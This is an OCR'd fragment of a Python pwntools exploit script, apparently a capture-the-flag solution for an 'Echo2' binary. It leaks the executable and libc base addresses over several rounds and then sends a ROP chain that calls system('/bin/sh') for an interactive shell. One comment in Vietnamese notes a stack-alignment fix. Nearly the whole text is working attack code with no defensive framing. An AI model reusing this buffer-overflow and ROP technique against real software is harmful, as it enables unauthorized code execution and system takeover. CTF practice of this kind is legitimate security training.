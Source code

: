 ```python
    r.sendlineafter(b'Echo2\n',b'281')
    r.send(payload)
    r.recvline()
    r.recv(279)
    exe_leak = u64(r.recv(6).ljust(8, b'\0'))
    exe.address = exe_leak - 4684
    log.info('exe_base :' + hex(exe.address))
    ret = exe.address + 0x101a # ret
    #round 2
    payload = b'B'*279
    payload += p64(exe.plt['puts'])
    payload += p64(ret)
    payload += p64(exe.sym['main']+103)
 
    r.sendlineafter(b'Echo2\n',b'304')
    r.send(payload)
    r.recv(0x126)
    libc_leak = u64(r.recv(6).ljust(8,b'\0'))
    libc.address = libc_leak - 401616
    log.info("libc_leak :"+ hex(libc.address))
    
    r.recvline()
    rdi = libc.address + 0x2a3e5
    bin_sh = next(libc.search(b"/bin/sh"))

    #round 3
    payload3 = b'C'*279
    payload3 += p64(rdi)
    payload3 += p64(bin_sh)
    payload3 += p64(ret)
    payload3 += p64(libc.sym['system'])# nếu để ret sau sẽ bị lỗi xmm1 nên phải để trước system
 
    r.sendlineafter(b'Echo2\n',b'312')
    r.send(payload3)

    r.interactive()


if __name__ == "__main__":
    main()

```